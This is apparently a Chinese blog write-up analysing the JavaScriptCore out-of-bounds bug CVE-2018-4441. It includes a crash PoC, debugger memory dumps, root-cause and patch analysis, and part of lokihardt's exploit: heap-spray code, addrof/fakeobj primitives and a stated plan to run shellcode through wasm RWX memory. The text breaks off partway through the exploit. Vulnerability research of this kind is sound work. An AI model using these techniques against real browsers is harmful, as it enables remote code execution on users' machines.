






作者最近研究了safari浏览器JavascriptCore引擎的一个OOB漏洞CVE-2018-4441，虽然这是一个比较老的漏洞，但是研究这个漏洞还是能学到不少东西。这里介绍了jsc环境搭建的方法和jsc一些基本调试技巧，详细分析了CVE-2018-4441的漏洞成因和lokihardt堆喷修改数组长度构成OOB的方法，希望读者读完能有所收获。
环境搭建 下载源码 下载源码使用
1 git clone https://git.webkit.org/git/WebKit.git WebKit
如下载的源码较旧需更新源码到最新日期则使用
1 2 3 git fetch --all git reset --hard origin/master git pull
切换到包含漏洞的commit_hash，这里我没有找到很好的方法，我使用的方法是搜索CVE-2018-4441的修复日期fix_date，然后从webkit的github上搜索小于fix_date的commit，即committer-date:<fix_date，最后使用的是21687be235d506b9712e83c1e6d8e0231cc9adfd。切换的命令如下
1 git checkout -b CVE-2018-4441 21687be235d506b9712e83c1e6d8e0231cc9adfd
命令的格式为git checkout -b {local_name} {commit_hash}。
编译安装 安装依赖项
1 Tools/gtk/install-dependencies
这里如果是在linux下使用时提示缺少pipenv包需要注释掉install-dependencies中函数installDependenciesWithApt里边的pipenv包。
编译
1 2 Tools/Scripts/build-webkit --jsc-only --debug Tools/Scripts/build-webkit --jsc-only --release
调试 js断点 这里介绍两个使jsc在我们编写的js代码里断下来的技巧（即类似V8的%SystemBreak()）。
方法一 在编写的js代码里定义断点函数
1 2 3 function b(){ Array.prototype.slice([]); //needs "b arrayProtoFuncSlice" }
在调试器里设置arrayProtoFuncSlice的断点即”b arrayProtoFuncSlice”。这样在js代码里调用b()调试器就会断在这里了。
这个方法的缺点是如果调试的漏洞会调用到arrayProtoFuncSlice的话可能会对漏洞分析调试产生影响。
方法二 修改jsc的源码添加如下辅助函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 diff --git diff --git a/Source/JavaScriptCore/jsc.cpp b/Source/JavaScriptCore/jsc.cpp index bda9a09d0d2..d359518b9b6 100644 --- a/Source/JavaScriptCore/jsc.cpp +++ b/Source/JavaScriptCore/jsc.cpp @@ -994,6 +994,7 @@ static EncodedJSValue JSC_HOST_CALL functionSetHiddenValue(ExecState*); static EncodedJSValue JSC_HOST_CALL functionPrintStdOut(ExecState*); static EncodedJSValue JSC_HOST_CALL functionPrintStdErr(ExecState*); static EncodedJSValue JSC_HOST_CALL functionDebug(ExecState*); +static EncodedJSValue JSC_HOST_CALL functionDbg(ExecState*); static EncodedJSValue JSC_HOST_CALL functionDescribe(ExecState*); static EncodedJSValue JSC_HOST_CALL functionDescribeArray(ExecState*); static EncodedJSValue JSC_HOST_CALL functionSleepSeconds(ExecState*); @@ -1218,6 +1219,7 @@ protected: addFunction(vm, "debug", functionDebug, 1); addFunction(vm, "describe", functionDescribe, 1); + addFunction(vm, "dbg", functionDbg, 0); addFunction(vm, "describeArray", functionDescribeArray, 1); addFunction(vm, "print", functionPrintStdOut, 1); addFunction(vm, "printErr", functionPrintStdErr, 1); @@ -1752,6 +1754,13 @@ EncodedJSValue JSC_HOST_CALL functionDebug(ExecState* exec) return JSValue::encode(jsUndefined()); } +EncodedJSValue JSC_HOST_CALL functionDbg(ExecState* exec) +{ + asm("int3;"); + + return JSValue::encode(jsUndefined()); +} + EncodedJSValue JSC_HOST_CALL functionDescribe(ExecState* exec) { if (exec->argumentCount() < 1)
重新编译jsc代码，在js代码里定义如下断点函数
这样在js代码里调用函数b()时调试器就会断在这里了。
对象调试 jsc中也有一些类似v8的%DebugPrint()的辅助调试输出函数，定义在JavaScriptCore/jsc.cpp里。jsc中输出对象的方法如下
漏洞分析 POC 1 2 3 4 5 6 7 8 9 10 11 function main() { let arr = [1]; arr.length = 0x100000; arr.splice(0, 0x11); arr.length = 0xfffffff0; arr.splice(0xfffffff0, 0, 1); } main();
poc中首先定义了一个CopyOnWriteArrayWithInt32的数组arr，
1 --> Object: 0x7fffb30b4340 with butterfly 0x7fe0000e4010 (Structure 0x7fffb30f2c30:[Array, {}, CopyOnWriteArrayWithInt32, Proto:0x7fffb30c80a0, Leaf]), StructureID: 102
其中jsc的数组存储规则定义在/Source/JavaScriptCore/runtime/ArrayConventions.h里。elements的存储定义如下，
1 2 3 4 5 6 7 8 // * Where (i < MIN_SPARSE_ARRAY_INDEX) the value will be stored in the storage vector, // unless the array is in SparseMode in which case all properties go into the map. // * Where (MIN_SPARSE_ARRAY_INDEX <= i <= MAX_STORAGE_VECTOR_INDEX) the value will either // be stored in the storage vector or in the sparse array, depending on the density of // data that would be stored in the vector (a vector being used where at least // (1 / minDensityMultiplier) of the entries would be populated). // * Where (MAX_STORAGE_VECTOR_INDEX < i <= MAX_ARRAY_INDEX) the value will always be stored // in the sparse array.
此时arr的元素下标小于MIN_SPARSE_ARRAY_INDEX（即100000U）会存储在butterfly的storage vector里，butterfly（0x7fe0000e4010）
1 2 3 0x7fe0000e4000: 0x0100111500000014 0x0000000100000001 0x7fe0000e4010: 0xffff000000000001 0x00000000badbeef0 0x7fe0000e4020: 0x00000000badbeef0 0x00000000badbeef0
poc中之后修改了arr的长度为0x100000，此时下标大于MIN_SPARSE_ARRAY_INDEX（100000U）数组类型变为ArrayWithArrayStorage
1 --> Object: 0x7fffb30b4340 with butterfly 0x7fe0000fe6e8 (Structure 0x7fffb30f2b50:[Array, {}, ArrayWithArrayStorage, Proto:0x7fffb30c80a0, Leaf]), StructureID: 100
此时jsc开辟了新的ArrayStorage并把butterfly指向新的ArrayStorage。butterfly(0x7fe0000fe6e8)
1 2 3 0x7fe0000fe6d8: 0x00000000badbeef0 0x0000000100100000 0x7fe0000fe6e8: 0x0000000000000000 0x0000000100000000 0x7fe0000fe6f8: 0xffff000000000001 0x00000000badbeef0
在执行arr.splice(0, 0x11)，移除0x11个元素后butterfly变为
1 2 3 0x7fe0000fe6d8: 0x00000000badbeef0 0x00000001000fffef 0x7fe0000fe6e8: 0x0000000000000000 0xfffffff000000000 0x7fe0000fe6f8: 0x0000000000000000 0x00000000badbeef0
poc中重新设置arr的长度arr.length = 0xfffffff0，此时butterfly变为
1 2 3 0x7fe0000fe6d8: 0x00000000badbeef0 0x00000001fffffff0 0x7fe0000fe6e8: 0x0000000000000000 0xfffffff000000000 0x7fe0000fe6f8: 0x0000000000000000 0x00000000badbeef0
继续调用arr.splice(0xfffffff0, 0, 1)添加元素时发现jsc运行崩溃

崩溃时写的地址为0x7ff0000fe6e8+0xfffffff0*8+0x10=0x7FF8000FE678，0x7FF8000FE678不可写导致崩溃
1 2 3 pwndbg> vmmap 0x7FF8000FE678 LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 0x7ff400000000 0x7ffc00000000 ---p 800000000 0
漏洞根源分析 poc崩溃时栈回溯如下
1 2 3 4 5 6 7 8 9 10 pwndbg> bt #0 JSC::JSArray::unshiftCountWithArrayStorage (this=0x7fffb30b4340, exec=0x1, startIndex=<optimized out>, count=1, storage=0x7ff0000fe6e8) at ../../Source/JavaScriptCore/runtime/JSArray.cpp:1060 #1 0x00000000013a3369 in JSC::JSArray::unshiftCountWithAnyIndexingType (this=0x7fffb30b4340, exec=0x7fffffffcde0, startIndex=4294967280, count=<optimized out>) at ../../Source/JavaScriptCore/runtime/JSObject.h:863 #2 0x00000000012c19af in JSC::JSArray::unshiftCountForSplice (this=<optimized out>, exec=<optimized out>, startIndex=<optimized out>, count=<optimized out>) at ../../Source/JavaScriptCore/runtime/JSArray.h:149 #3 JSC::JSArray::unshiftCount<(JSC::JSArray::ShiftCountMode)1> (this=<optimized out>, count=<optimized out>, exec=<optimized out>, startIndex=<optimized out>) at ../../Source/JavaScriptCore/runtime/JSArray.h:158 #4 JSC::unshift<(JSC::JSArray::ShiftCountMode)1> (exec=0x7fffffffcde0, thisObj=0x7fffb30b4340, header=<optimized out>, currentCount=0, resultCount=<optimized out>, length=4294967280) at ../../Source/JavaScriptCore/runtime/ArrayPrototype.cpp:361 #5 0x00000000012b6b2a in JSC::arrayProtoFuncSplice (exec=0x7fffffffcde0) at ../../Source/JavaScriptCore/runtime/ArrayPrototype.cpp:1091 #6 0x00007fffb39ff177 in ?? () #7 0x00007fffffffce70 in ?? () #8 0x0000000001126f00 in llint_entry ()
我分析这个漏洞根本原因的方法是先从ECMAScript查了下Array.prototype.splice方法的实现，然后从崩溃的开始JSC::arrayProtoFuncSplice函数分析。
JSC::arrayProtoFuncSplice的大致逻辑是找到splice调用时的数组起点actualstart并根据参数个数来对数组进行删除元素或添加元素，删除或添加元素使用的是shift或unshift。
poc中第一次调用arr.splice(0, 0x11)删除元素时使用的是shift，并最终由于arr类型为ArrayWithArrayStorage调用到shiftCountWithArrayStorage。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 bool JSArray::shiftCountWithArrayStorage(VM& vm, unsigned startIndex, unsigned count, ArrayStorage* storage) { ...... // If the array contains holes or is otherwise in an abnormal state, // use the generic algorithm in ArrayPrototype. if ((storage->hasHoles() && this->structure(vm)->holesMustForwardToPrototype(vm, this)) || hasSparseMap() || shouldUseSlowPut(indexingType())) { return false; } if (!oldLength) return true; unsigned length = oldLength - count; storage->m_numValuesInVector -= count; storage->setLength(length);
在shiftCountWithArrayStorage进行了一些列判断来决定array是否使用ArrayPrototype中的方法处理splice调用中的删除元素操作，若这一系列判断条件全部为假则执行storage->m_numValuesInVector -= count对splice调用中的数组storage->vectorLength赋值的操作，实际上这一系列的判断是存在缺陷的，漏洞的根源也就出在这里。产生漏洞的原因即判断条件全部为假时m_numValuesInVector 和array.length我们可控，在随后的分析中我们可以看到这两个值可控会导致添加元素调用unshiftCountWithArrayStorage时实际storage->hasHoles()为真的数组返回为假，在memmove初始化新的storage时导致OOB。
shiftCountWithArrayStorage中首先判断了hasHoles，jsc中storage->hasHoles()实际上判断的是*(dword*)(&butterfly+0xc)==*(dword*)(&butterfly-0x4)，即storageLength==vectorLength，
此时由于m_numValuesInVector!=storage->length，hasHoles为真。butterfly(0x7ff0000fe6e8)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 pwndbg> x/6xg 0x7ff0000fe6e8-0x10 0x7ff0000fe6d8: 0x00000000badbeef0 0x0000000100100000 0x7ff0000fe6e8: 0x0000000000000000 0x0000000100000000 0x7ff0000fe6f8: 0xffff000000000001 0x00000000badbeef0 pwndbg> p *(JSC::ArrayStorage *) 0x7ff0000fe6e8 $8 = { m_sparseMap = { <JSC::WriteBarrierBase<JSC::SparseArrayValueMap, WTF::DumbPtrTraits<JSC::SparseArrayValueMap> >> = { m_cell = 0x0 }, <No data fields>}, m_indexBias = 0, m_numValuesInVector = 1, m_vector = {{ <JSC::WriteBarrierBase<JSC::Unknown, WTF::DumbValueTraits<JSC::Unknown> >> = { m_value = -281474976710655 }, <No data fields>}} }
然后继续判断会调用到holesMustForwardToPrototype
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 bool Structure::holesMustForwardToPrototype(VM& vm, JSObject* base) const { ASSERT(base->structure(vm) == this); if (this->mayInterceptIndexedAccesses()) return true; JSValue prototype = this->storedPrototype(base); if (!prototype.isObject()) return false; JSObject* object = asObject(prototype); while (true) { Structure& structure = *object->structure(vm); if (hasIndexedProperties(object->indexingType()) || structure.mayInterceptIndexedAccesses()) return true; prototype = structure.storedPrototype(object); if (!prototype.isObject()) return false; object = asObject(prototype); } RELEASE_ASSERT_NOT_REACHED(); return false; }
holesMustForwardToPrototype中主要是遍历了array的原型链并判断了hasIndexedProperties和mayInterceptIndexedAccesses属性，如果这两个属性都为假会返回false。
回到shiftCountWithArrayStorage的3个判断，即
1 2 3 if ((storage->hasHoles() && this->structure(vm)->holesMustForwardToPrototype(vm, this)) || hasSparseMap() || shouldUseSlowPut(indexingType()))
按照lokihardt的说法由于poc中的arr在原型链中不含索引访问和proxy对象，第一个&&的判断中holesMustForwardToPrototype会为假。其余两个判断也为假。这样就导致shiftCountWithArrayStorage执行到如下代码
1 storage->m_numValuesInVector -= count;
poc中的arr->m_numValuesInVector = 1，这样删除0x11个元素后1-0x11=0xFFFFFFFFFFFFFFF0，保存时取低4字节为0xfffffff0。
poc中执行到arr.splice(0xfffffff0, 0, 1)添加元素时使用的是unshift，并最终由于arr类型为ArrayWithArrayStorage调用到unshiftCountWithArrayStorage。
1 2 3 4 5 6 7 bool JSArray::unshiftCountWithArrayStorage(ExecState* exec, unsigned startIndex, unsigned count, ArrayStorage* storage) { ...... // If the array contains holes or is otherwise in an abnormal state, // use the generic algorithm in ArrayPrototype. if (storage->hasHoles() || storage->inSparseMode() || shouldUseSlowPut(indexingType())) return false;
在unshiftCountWithArrayStorage中首先判断了arr的storage是否hasHoles，如果hasHoles为真则使用ArrayPrototype的其他方法去处理splice调用时删除或添加的元素。
由于poc中我们修改了arr的length为0xFFFFFFF0，又由于第一次调用splice方法删除元素时在shiftCountWithArrayStorage中不正确地更新了m_numValuesInVector，此时length=m_numValuesInVector=0xFFFFFFF0，storage->hasHoles()返回为假jsc继续使用unshiftCountWithArrayStorage的方法处理splice调用中添加的元素。此时butterfly(0x7ff0000fe6e8)如下，*(dword*)(&butterfly+0xc)==*(dword*)(&butterfly-0x4)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 pwndbg> p *(JSC::ArrayStorage *)0x7ff0000fe6e8 $4 = { m_sparseMap = { <JSC::WriteBarrierBase<JSC::SparseArrayValueMap, WTF::DumbPtrTraits<JSC::SparseArrayValueMap> >> = { m_cell = 0x0 }, <No data fields>}, m_indexBias = 0, m_numValuesInVector = 4294967280, m_vector = {{ <JSC::WriteBarrierBase<JSC::Unknown, WTF::DumbValueTraits<JSC::Unknown> >> = { m_value = 0 }, <No data fields>}} } pwndbg> x/6xg 0x7ff0000fe6e8-0x10 0x7ff0000fe6d8: 0x00000000badbeef0 0x00000001fffffff0 0x7ff0000fe6e8: 0x0000000000000000 0xfffffff000000000 0x7ff0000fe6f8: 0x0000000000000000 0x00000000badbeef0
unshiftCountWithArrayStorage随后设置了storage的gc状态为推迟，然后重新设置了array->storage。随后的漏洞利用分析中可以看到这里调用memmove处理新的storage就是导致OOB的根本原因。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 WriteBarrier<Unknown>* vector = storage->m_vector; if (startIndex) { if (moveFront) memmove(vector, vector + count, startIndex * sizeof(JSValue)); else if (length - startIndex) memmove(vector + startIndex + count, vector + startIndex, (length - startIndex) * sizeof(JSValue)); } for (unsigned i = 0; i < count; i++) vector[i + startIndex].clear(); return true; }
总结一下漏洞的逻辑：poc中的arr第一次调用splice删除元素时会调用到shiftCountWithArrayStorage，在shiftCountWithArrayStorage会遍历arr的原型链并存在可能使得原型链判断返回假，导致在shiftCountWithArrayStorage中arr的m_numValuesInVector 被不恰当地更新（本不该执行到这里）；在第二次调用splice添加元素时调用到unshiftCountWithArrayStorage，如果设置arr.length=m_numValuesInVector 导致arr->hasHoles判断为假，进而在unshiftCountWithArrayStorage中使用memmove更新storage时导致OOB。
patch分析 patch地址https://github.com/WebKit/webkit/commit/51a62eb53815863a1bd2dd946d12f383e8695db0
patch中去掉了shiftCountWithArrayStorage中遍历原型链的判断，且不管array是否storage->hasHoles()都使用memmove去更新storage。这样在调用splice删除元素时只要数组vectorLength!=storageLength即hasHoles为真都会使用ArrayPrototype中的方法去处理，不会更新m_numValuesInVector ，这样这个漏洞就从根源上被修复了。

但是这里我没有想明白的一点是为什么修复漏洞之前还要多此一举的调用holesMustForwardToPrototype判断array的原型链，既然不判断既没有漏洞又省去了一次执行判断原型链的时间;)？
漏洞利用 exp来自那个男人，即lokihardt。
首先整理一下通过这个漏洞我们可控的东西：splice在删除元素时不正确更新的vectorLength、array数组的长度storageLength，在调用splice添加元素时如果vectorLength=storageLength即storage->hasHoles为真会执行unshiftCountWithArrayStorage中更新storage的流程，并且更新storage的流程memmove时似乎存在利用的可能。
lokihardt的利用思路是通过堆喷利用unshiftCountWithArrayStorage更新storage时memmove修改数组长度构成OOB进而构造addrof、fakeobj原语，构造ArrayWithArrayStorage类型的fakeobj记hax并使hax的butterfly指向ArrayWithDouble类型的victim，通过修改hax[1]即victim.butterfly为addr和victim.prop完成任意地址读写，通过任意地址读写修改wasm模块rwx的内存区来执行shellcode。
heap spray 1 2 3 4 5 6 7 8 9 let spray = new Array(0x3000); for (let i = 0; i < 0x3000; i += 2) { spray[i] = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37+i]; spray[i+1] = [{},{},{},{},{},{},{},{},{},{}]; } for (let i = 0; i < 0x3000; i += 2) spray[i][0] = i2f(0x1337)
lokihardt堆喷的数组spray[i]为ArrayWithDouble,spray[i+1]为ArrayWithContiguous，且spray[i]和spray[i+1]均为10个元素，这里堆喷的数组元素类型和个数都是固定的。
首先解释下元素的类型，这里的元素类型是为了方便利用修改长度后的堆喷数组构造fakeobj和addrof原语，测试如下代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 function p(obj){ debug(describe(obj)); } function b(){ dbg(); //needs patch } var a1 = [1.1]; a1[0] = 13.37; var a2 = [{}]; print("[*] a1:"); p(a1); print("[*] a2"); p(a2); b();
a1为ArrayWithDouble类型，jsc中存储如下
1 2 3 4 5 6 7 8 9 10 11 [*] a1: --> Object: 0x7fffb30b4370 with butterfly 0x7fe0000fe928 (Structure 0x7fffb30f2a70:[Array, {}, ArrayWithDouble, Proto:0x7fffb30c80a0, Leaf]), StructureID: 98 pwndbg> x/6xg 0x7fffb30b4370 0x7fffb30b4370: 0x0108210700000062 0x00007fe0000fe928 0x7fffb30b4380: 0x0108210900000063 0x00007fe0000fe948 0x7fffb30b4390: 0x00000000badbeef0 0x00000000badbeef0 pwndbg> x/6xg 0x00007fe0000fe928-0x10 0x7fe0000fe918: 0x00007fffb306c280 0x0000000100000001 0x7fe0000fe928: 0x402abd70a3d70a3d 0x00000000badbeef0 0x7fe0000fe938: 0x00000000badbeef0 0x0000000300000001
可以看到a1即ArrayWithDouble的元素在butterfly的storage中直接存储。
a2为ArrayWithContiguous类型，jsc中存储如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 [*] a2 --> Object: 0x7fffb30b4380 with butterfly 0x7fe0000fe948 (Structure 0x7fffb30f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffb30c80a0]), StructureID: 99 pwndbg> x/6xg 0x7fffb30b4380 0x7fffb30b4380: 0x0108210900000063 0x00007fe0000fe948 0x7fffb30b4390: 0x00000000badbeef0 0x00000000badbeef0 0x7fffb30b43a0: 0x00000000badbeef0 0x00000000badbeef0 pwndbg> x/6xg 0x00007fe0000fe948-0x10 0x7fe0000fe938: 0x00000000badbeef0 0x0000000300000001 0x7fe0000fe948: 0x00007fffb30b0080 0x0000000000000000 0x7fe0000fe958: 0x0000000000000000 0x00000000badbeef0 pwndbg> x/6xg 0x00007fffb30b0080-0x10 0x7fffb30b0070: 0x0000000000000004 0x00000000badbeef0 0x7fffb30b0080: 0x010016000000004c 0x0000000000000000 0x7fffb30b0090: 0x0000000000000000 0x0000000000000000
a2中的元素{}在butterfly中以类似object的形式存储，即butterfly中存储的是指向{}内存区的指针，指针指向a2的真正内容。即a2.butterfly->*p->content。
再看一遍lokihardt堆喷的数组，spray[i]为ArrayWithDouble，butterfly:0x7fe00028c078；spray[i+1]为ArrayWithContiguous，butterfly:0x7fe00028c0e8。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 pwndbg> x/40xg 0x00007fe00028c078-0x40 0x7fe00028c038: 0x00007fffb1a65c40 0x00007fffb1a65c80 0x7fe00028c048: 0x00007fffb1a65cc0 0x0000000000000000 0x7fe00028c058: 0x0000000000000000 0x0000000000000000 0x7fe00028c068: 0x0000000d0000000a 0x0000000000001337 0x7fe00028c078: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c088: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c098: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c0a8: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c0b8: 0x40c735af5c28f5c3 0x7ff8000000000000 0x7fe00028c0c8: 0x7ff8000000000000 0x7ff8000000000000 0x7fe00028c0d8: 0x0000000d0000000a 0x00007fffb1a65d00 0x7fe00028c0e8: 0x00007fffb1a65d40 0x00007fffb1a65d80 0x7fe00028c0f8: 0x00007fffb1a65dc0 0x00007fffb1a65e00 0x7fe00028c108: 0x00007fffb1a65e40 0x00007fffb1a65e80 0x7fe00028c118: 0x00007fffb1a65ec0 0x00007fffb1a65f00 0x7fe00028c128: 0x00007fffb1a65f40 0x0000000000000000 0x7fe00028c138: 0x0000000000000000 0x0000000000000000 0x7fe00028c148: 0x0000000d0000000a 0x0000000000001337 0x7fe00028c158: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c168: 0x402abd70a3d70a3d 0x402abd70a3d70a3d
构造addrof：spray[i+1][0]=obj，jsc会在0x7fe00028c0e8的位置保存obj的地址指针，在**0x7fe00028c0e8的位置保存obj的内容，这样我们通过读spray[i][14]的内容即可实现读对象的地址。
构造fakeobj：spray[i][14]=addr，此时spray[i+1][0]的位置即为addr，由于spray[i+1]为ArrayWithContiguous类型即spray[i+1][x]中保存的是类似obj的对象，这样spray[i+1][0]即为我们构造的fakeobj对象。
再解释下堆喷的数组元素个数是10个。要理解堆喷元素个数首先要理解的一点是lokihardt利用的思路，如果我们可以修改堆喷的数组长度使spray[i]可以访问到spray[i+1][xx]就可以构造fakeobj和addrof原语，而正常情况下不修改数组长度spray[i]肯定是不能访问到spray[i+1]的，那么如何修改堆喷数组的长度呢？可能的思路有两个：1.堆喷后手动触发GC调用splice添加元素使调用splice时新添加的storage的butterfly正好落在spray[i]里（即在spray[i]处伪造一个butterfly并修改spray[i]的length），但是这个方法明显的缺陷就是触发GC的时机和新的butterfly太难控制了，控制不当jsc肯定会崩溃；2.调试发现exp中splice添加元素的过程会触发创建新的butterfly的操作，新创建的butterfly会落在最后一个堆喷数组的后面（spray[0x3000].butterfly的后面），配合unshiftCountWithArrayStorage中的memmove可以达到修改堆喷数组长度的效果，这也是这个漏洞为什么会被描述为OOB的根本原因（难道这就是那个男人强大的力量吗;p）。
第一次arr.splice(0, 0x11)删除元素时arr的存储
1 --> Object: 0x7fffb30b4370 with butterfly 0x7ff0000fe948 (Structure 0x7fffb30f2b50:[Array, {}, ArrayWithArrayStorage, Proto:0x7fffb30c80a0, Leaf]), StructureID: 100
堆喷后调用arr.splice(0x1000,0,1)添加元素，unshiftCountWithArrayStorage处理exp中的arr时会调用到unshiftCountSlowCase，并在tryCreateUninitialized中创建新的storage，大小为88=0x58

字节对齐后为0x50，为了防止随后的memmove移动内存过程中破坏内存，堆喷的数组元素个数申请了10个。
unshiftCountWithArrayStorage在创建完新的storage后会初始化新的storage，即memmove的过程，exp中会执行到以下流程

这里dst=0x7ff000287a78即arr新的butterfly+0x10的位置，src=0x7ff000287a80，n=0x8000即将0x7ff000287a80开始0x8000的内存整体前移8字节，这里会使堆喷数组中某个spray[i][0]的元素覆盖到*(dword*)(&spray[i]-8)的位置，即0x1337覆盖到spray[i]的length域
